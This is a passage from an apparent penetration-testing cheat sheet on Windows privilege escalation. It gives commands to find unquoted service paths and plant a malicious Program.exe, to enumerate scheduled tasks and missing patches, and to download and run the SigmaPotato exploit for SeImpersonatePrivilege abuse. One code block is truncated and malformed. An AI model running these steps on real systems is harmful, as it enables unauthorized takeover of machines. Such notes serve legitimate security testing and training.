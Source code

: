 Compile and inject into first-searched directory.

---

### Unquoted Service Paths

**Concept**: Exploit improperly quoted service paths with spaces to inject executables.

Find:
```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Inject:
```bash
Create malicious Program.exe and place it in C:```

---

### Scheduled Tasks

Check for exploitable tasks:
```cmd
schtasks /query /fo LIST /v
```

Evaluate:
- Owner of task
- Trigger condition
- Executed command

---

## Using Exploits and Potatoes

### Patch Assessment

```powershell
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

---

### SigmaPotato

Used for exploiting `SeImpersonatePrivilege` via named pipe impersonation.

```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
.\SigmaPotato "cmd.exe /c whoami"
```

---
